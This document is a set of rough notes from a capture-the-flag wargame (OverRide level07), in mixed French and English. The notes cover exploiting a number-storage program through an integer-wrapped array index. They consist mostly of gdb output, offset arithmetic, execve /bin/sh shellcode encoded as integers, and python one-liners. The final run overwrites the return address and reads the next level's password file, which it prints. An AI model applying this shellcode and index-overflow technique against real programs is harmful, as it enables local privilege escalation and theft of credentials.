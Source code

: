 
V6 ARRAY
(gdb) x/wx $esp + 0x24
0xffffd544:     0x00000000

RET ADDR
(gdb) x/wx $esp
0xffffd70c:     0xf7e45513

S ARRAY
(gdb) x/s $esp + 0x1b8
0xffffd6d8:      "store" = 4294956760

Breakpoint 4, 0x080486d6 in store_number ()
(gdb) x/wx $esp
0xffffd51c:     0x080488ef


0xffffd51c - 0xffffd544 = 0x1c8 (456)


456 / 4 = 114

unit max = 4294967295 / 4 (car il fait un *4) + 456 / 4 car int  = 114


a test = (4294967295 / 4)  + (456 / 4)
1073741937.75 

a test = (4294967295 + 456) / 4
1073741937.75

a test = (4294967295) / 4 + 114
1073741937.75

in int =  1073741938 ? or 1073741937


114


find !
(python -c "print ('store\n4159090384\n1073741938\n' + 'store\n4294956764\n!!!!!!!!!!!!!\n' + 'quitsh\n')") | /home/users/level07/level07

overflow for ret addr = 1073741938 = 114


68732f = /sh = 6845231

6e69622f = /bin = 1852400175

26739 = sh

store 0

114 + 32 = 146

stack main = 456

ret = 456 -> stack main = 464

114 - 7 + 5

111

 <<< $(python -c "print ('store\n4159090384\n1073741938\n' + 'store\n4294956764\n1\n')")


60 / 4 = 15


4294956820 - 4294956760



b7d8ffff

0xffffd708

0xffffd6d4 = 01 = 0xffffd4b0 = 0xffffd400

v6 array de [1] = 
(gdb) p 0xffffd548 + 27 = 4294956468
$1 = 4294956360

transform shell code:


\x31\xc0\x50\x68 = 6850c031 = 1750122545 = 28

\x2f\x2f\x73\x68 = 68732f2f = 1752379183 = 29

\x68\x2f\x62\x69 = 69622f68 = 1768042344 = 1073741854

\x6e\x89\xe3\x50 = 50e3896e = 1357089134 = 31

\x53\x89\xe1\x99 = 99e18953 = 2581694803 = 32

\xb0\x0b\xcd\x80 = 80cd0bb0 = 2160921520 = 1073741857

(python -c "print ('store\n1750122545\n28\n' + 'store\n1752379183\n29\n' + 'store\n1768042344\n1073741854\n' + 'store\n1357089134\n31\n' + 'store\n2581694803\n32\n' + 'store\n2160921520\n1073741857\n' + 'store\n4294956468\n1073741938\n' + 'quit\n')") | /home/users/level07/level07

\x31\xc0\x50\x68
\x2f\x2f\x73\x68 
\x68\x2f\x62\x69 
\x6e\x89\xe3\x50
\x53\x89\xe1\x99 
\xb0\x0b\xcd\x80

in real prog need -16 to index

.........................................................

level07@OverRide:~$ (python -c "print ('store\n1750122545\n28\n' + 'store\n1752379183\n29\n' + 'store\n1768042344\n1073741854\n' + 'store\n1357089134\n31\n' + 'store\n2581694803\n32\n' + 'store\n2160921520\n1073741857\n' + 'store\n4294956452\n1073741938\n' + 'quit\n')"; echo 'cat /home/users/level08/.pass') | /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

1000 0000 0000 0111
-32761